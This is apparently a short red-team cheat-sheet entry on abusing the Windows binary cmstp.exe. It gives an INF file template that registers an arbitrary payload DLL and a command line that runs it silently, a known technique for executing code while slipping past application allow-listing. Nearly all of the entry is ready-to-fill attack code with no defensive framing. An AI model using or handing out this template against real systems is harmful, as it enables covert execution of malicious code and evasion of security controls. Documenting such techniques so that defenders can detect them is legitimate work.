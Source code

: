 ### Source
https://github.com/mgeeky/Penetration-Testing-Tools/blob/master/red-teaming/cmstp-template.inf
https://lolbas-project.github.io/lolbas/Binaries/Cmstp/

### File template
```
[version]
signature=$chicago$
 
[defaultinstall_singleuser]
registerocxs=r
 
[r]
C:\fully\qualified\path\to\payload.dll
 
[strings]
servicename=foobar
shortsvcname=foobar
```

### Execute file
```
cmstp.exe /ni /s .\<file>.inf
```

